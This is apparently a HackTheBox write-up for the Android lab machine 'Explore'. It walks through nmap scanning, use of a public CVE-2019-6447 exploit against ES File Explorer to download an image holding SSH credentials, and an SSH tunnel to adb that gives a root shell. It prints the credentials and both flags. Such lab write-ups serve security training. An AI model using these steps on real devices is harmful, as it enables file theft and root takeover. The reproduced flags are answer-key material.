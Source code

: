 # Explore - HackTheBox - Writeup
Android, 20 Base Points, Easy

## Machine

![‏‏Explore.JPG](images/Explore.JPG)

### TL;DR;

To solve this machine, we begin by enumerating open services – finding the ports ```2222```,```5555```,```33897```,```42135``` and ```59777```.

***User:*** Found related ports of [ES File Explorer](https://es-file-explorer.en.uptodown.com/android) application with [CVE-2019-6447](https://nvd.nist.gov/vuln/detail/CVE-2019-6447) which allow us to read files from the device, Using that we found an image with SSH credentials.

***Root:*** Found port ```5555``` which is ```adb```, Create SSH tunnel and run ```adb root``` and then ```adb shell``` to get a shell as a root user.

![pwn.JPG](images/pwn.JPG)

## Explore Solution

### User

Let's start with ```nmap``` scanning:

```console
┌─[evyatar@parrot]─[/hackthebox/Explore]
└──╼ $ nmap -p- -v -sV -sC -oA nmap/Explore 10.10.10.247
Starting Nmap 7.80 ( https://nmap.org ) at 2021-07-01 22:26 IDT
Nmap scan report for 10.10.10.247
Host is up (0.093s latency).

PORT      STATE    SERVICE VERSION
2222/tcp  open     ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-SSH Server - Banana Studio
| ssh-hostkey: 
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
5555/tcp  filtered freeciv
33897/tcp open     unknown
42135/tcp open     http    ES File Explorer Name Response httpd
|_http-title: Site doesn't have a title (text/html).
59777/tcp open     http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
|_http-title: Site doesn't have a title (text/plain).
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port2222-TCP:V=7.80%I=7%D=7/1%Time=60DE2451%P=x86_64-pc-linux-gnu%r(NUL
SF:L,24,"SSH-2\.0-SSH\x20Server\x20-\x20Banana\x20Studio\r\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port33897-TCP:V=7.80%I=7%D=7/1%Time=60DE2450%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,AA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDate:\x20Thu,\x200
SF:1\x20Jul\x202021\x2020:28:05\x20GMT\r\nContent-Length:\x2022\r\nContent
SF:-Type:\x20text/plain;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n\r
SF:\nInvalid\x20request\x20line:\x20")%r(GetRequest,5C,"HTTP/1\.1\x20412\x
SF:20Precondition\x20Failed\r\nDate:\x20Thu,\x2001\x20Jul\x202021\x2020:28
SF::05\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(HTTPOptions,B5,"HTTP/1\.
SF:0\x20501\x20Not\x20Implemented\r\nDate:\x20Thu,\x2001\x20Jul\x202021\x2
SF:020:28:11\x20GMT\r\nContent-Length:\x2029\r\nContent-Type:\x20text/plai
SF:n;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n\r\nMethod\x20not\x20
SF:supported:\x20OPTIONS")%r(RTSPRequest,BB,"HTTP/1\.0\x20400\x20Bad\x20Re
SF:quest\r\nDate:\x20Thu,\x2001\x20Jul\x202021\x2020:28:11\x20GMT\r\nConte
SF:nt-Length:\x2039\r\nContent-Type:\x20text/plain;\x20charset=US-ASCII\r\
SF:nConnection:\x20Close\r\n\r\nNot\x20a\x20valid\x20protocol\x20version:\
SF:x20\x20RTSP/1\.0")%r(Help,AE,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDat
SF:e:\x20Thu,\x2001\x20Jul\x202021\x2020:28:26\x20GMT\r\nContent-Length:\x
SF:2026\r\nContent-Type:\x20text/plain;\x20charset=US-ASCII\r\nConnection:
SF:\x20Close\r\n\r\nInvalid\x20request\x20line:\x20HELP")%r(SSLSessionReq,
SF:DD,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDate:\x20Thu,\x2001\x20Jul\x2
SF:02021\x2020:28:26\x20GMT\r\nContent-Length:\x2073\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n\r\nInvalid\x
SF:20request\x20line:\x20\x16\x03\0\0S\x01\0\0O\x03\0\?G\?\?\?,\?\?\?`~\?\
SF:0\?\?{\?\?\?\?w\?\?\?\?<=\?o\?\x10n\0\0\(\0\x16\0\x13\0")%r(TerminalSer
SF:verCookie,CA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDate:\x20Thu,\x2001
SF:\x20Jul\x202021\x2020:28:26\x20GMT\r\nContent-Length:\x2054\r\nContent-
SF:Type:\x20text/plain;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n\r\
SF:nInvalid\x20request\x20line:\x20\x03\0\0\*%\?\0\0\0\0\0Cookie:\x20mstsh
SF:ash=nmap")%r(TLSSessionReq,DB,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDa
SF:te:\x20Thu,\x2001\x20Jul\x202021\x2020:28:26\x20GMT\r\nContent-Length:\
SF:x2071\r\nContent-Type:\x20text/plain;\x20charset=US-ASCII\r\nConnection
SF::\x20Close\r\n\r\nInvalid\x20request\x20line:\x20\x16\x03\0\0i\x01\0\0e
SF:\x03\x03U\x1c\?\?random1random2random3random4\0\0\x0c\0/\0");
Service Info: Device: phone

```

We can see the ports ```42135```, ```59777``` which related to [ES File Explorer](https://es-file-explorer.en.uptodown.com/android), ES File Explorer application is a type of File Explorer to Android.

Found [CVE-2019-6447](https://nvd.nist.gov/vuln/detail/CVE-2019-6447) to the application and found also the following [POC](https://www.exploit-db.com/exploits/50070).

By using the function ```listPics``` from a device we can see the following result:
```console
┌─[evyatar@parrot]─[/hackthebox/Explore]
└──╼ $ python3 exp.py listPics 10.10.10.247

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

name : concept.jpg
time : 4/21/21 02:38:08 AM
location : /storage/emulated/0/DCIM/concept.jpg
size : 135.33 KB (138,573 Bytes)

name : anc.png
time : 4/21/21 02:37:50 AM
location : /storage/emulated/0/DCIM/anc.png
size : 6.24 KB (6,392 Bytes)

name : creds.jpg
time : 4/21/21 02:38:18 AM
location : /storage/emulated/0/DCIM/creds.jpg
size : 1.14 MB (1,200,401 Bytes)

name : 224_anc.png
time : 4/21/21 02:37:21 AM
location : /storage/emulated/0/DCIM/224_anc.png
size : 124.88 KB (127,876 Bytes)

``` 

Let's try to get the ```/storage/emulated/0/DCIM/creds.jpg``` file:
```console
┌─[evyatar@parrot]─[/hackthebox/Explore]
└──╼ $ python3 exp.py getFile 10.10.10.247 storage/emulated/0/DCIM/creds.jpg

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

[+] Downloading file...
m[+] Done. Saved as `out.dat`.

┌─[evyatar@parrot]─[/hackthebox/Explore]
└──╼ $ mv out.dat creds.jpg
```

We can see the following creds ```kristi:Kr1sT!5h@Rp3xPl0r3!```:

![creds.jpg](images/creds.jpg)

We can see also port ````2222```` which is [SSH Server Banana Studio](https://play.google.com/store/apps/details?id=net.xnano.android.sshserver.tv&hl=en_US&gl=US)

Let's connect ssh with the credentials above:
```console
┌─[evyatar@parrot]─[/hackthebox/Explore]
└──╼ $ ssh kristi@10.10.10.247 -p 2222
The authenticity of host '[10.10.10.247]:2222 ([10.10.10.247]:2222)' can't be established.
RSA key fingerprint is SHA256:3mNL574rJyHCOGm1e7Upx4NHXMg/YnJJzq+jXhdQQxI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.10.247]:2222' (RSA) to the list of known hosts.
Password authentication
Password: 
:/sdcard $ cd /sdcard/                                                         
:/sdcard $ ls
Alarms  DCIM     Movies Notifications Podcasts  backups   user.txt 
Android Download Music  Pictures      Ringtones dianxinos 
:/sdcard $ cat user.txt
f32017174c7c7e8f50c6da52891ae250

```

And we get the user flag ```f32017174c7c7e8f50c6da52891ae250```.

### Root

We can see on ```nmap``` scanning the port ```5555```, this port used by [adb](https://developer.android.com/studio/command-line/adb).

So let's try to connect using adb (we can install it using [https://www.xda-developers.com/install-adb-windows-macos-linux/](https://www.xda-developers.com/install-adb-windows-macos-linux/)):
```console
┌─[evyatar@parrot]─[/hackthebox/Explore/platform-tools]
└──╼ $ /adb connect 10.10.10.247:5555
failed to connect to '10.10.10.247:5555': Connection timed out
```

By running the command above we get a timeout.

But if we are create ssh tunnel as follow:
```console
┌─[evyatar@parrot]─[/hackthebox/Explore]
└──╼ $ ssh -N  -L 1111:127.0.0.1:5555 kristi@10.10.10.247 -p 2222
Password authentication
Password: 
```

Now we can use the connect command again:
```console
┌─[evyatar@parrot]─[/hackthebox/Explore/platform-tools]
└──╼ $ ./adb connect 127.0.0.1:1111
connected to 127.0.0.1:1111
```

Now we can run ```adb root``` and ```adb shell``` to connect as root:
```console
┌─[evyatar@parrot]─[/hackthebox/Explore/platform-tools]
└──╼ $ ./adb root
restarting adbd as root
┌─[evyatar@parrot]─[/hackthebox/Explore/platform-tools]
└──╼ $./adb shell
x86_64:/ # whoami
root
x86_64:/ # cat /data/root.txt
f04fc82b6d49b41c9b08982be59338c5
x86_64:/ # 

```

And we get the root flag ```f04fc82b6d49b41c9b08982be59338c5```.
